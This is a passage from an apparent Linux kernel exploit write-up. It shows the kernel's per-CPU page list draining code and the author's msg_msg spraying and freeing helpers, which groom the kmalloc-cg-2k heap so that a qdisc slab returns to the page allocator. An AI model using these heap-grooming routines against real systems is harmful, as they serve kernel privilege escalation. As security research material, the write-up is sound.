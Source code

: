 ```c
		order = pindex_to_order(pindex);
		nr_pages = 1 << order;
		do {
			int mt;

			page = list_last_entry(list, struct page, pcp_list);
			mt = get_pcppage_migratetype(page);

			/* must delete to avoid corrupting pcp list */
			list_del(&page->pcp_list);
			count -= nr_pages;
			pcp->count -= nr_pages;

			/* MIGRATE_ISOLATE page should not go to pcplists */
			VM_BUG_ON_PAGE(is_migrate_isolate(mt), page);
			/* Pageblock could have been isolated meanwhile */
			if (unlikely(isolated_pageblocks))
				mt = get_pageblock_migratetype(page);

			__free_one_page(page, page_to_pfn(page), zone, order, mt, FPI_NONE);
			trace_mm_page_pcpu_drain(page, order, mt);
		} while (count > 0 && !list_empty(list));
	}

	spin_unlock_irqrestore(&zone->lock, flags);
}
```

My approach was to break on [1] in a debugger and inspect the value of `high` to see how many (order 3) page blocks would have to be released. Before anything happens in my exploit, I allocate many `msg_msg`s in kmalloc-cg-2k, enough that when all released they will flush the pcp list:

```c
// Filling
void make_slabs(int *msgq, int *pre_post, uint32_t num_alloc, uint32_t pre,
                uint32_t post) {
  // Make a bunch of 2k slabs for us to release later, hopefully will enable us
  // to release our qdisc slab from the percpu freelist Because the target is
  // also order-3, we must also release order 3. We should ideally call this
  // func BEFORE anything else in the program.
  char mtext[MAX_K2K_SZ];
  memset(mtext, 0x88, MAX_K2K_SZ);
  msg_spray_nodiag(MAX_K2K_SZ, mtext, PRE, pre_post);
  msg_spray_nodiag(MAX_K2K_SZ, mtext, num_alloc, msgq);
  msg_spray_nodiag(MAX_K2K_SZ, mtext, POST, &pre_post[PRE]);
}

// ...
// Releasing
void release_slabs(int *msgq, int *pre_post, uint32_t num_alloc,
                   uint32_t pre, uint32_t post) {
  // Does the inverse of the above.
  // Free one obj per slab to overflow partial list
  char *mrecv = NULL;
  for (int i = 0; i < num_alloc; i += OBJ_PER_SLAB) {
    mrecv = recv_msg(msgq[i], MAX_K2K_SZ, 0, 0);
    free(mrecv);
  }

  for (int i = 0; i < pre + post; i++) {
    mrecv = recv_msg(pre_post[i], MAX_K2K_SZ, 0, 0);
    free(mrecv);
  }

```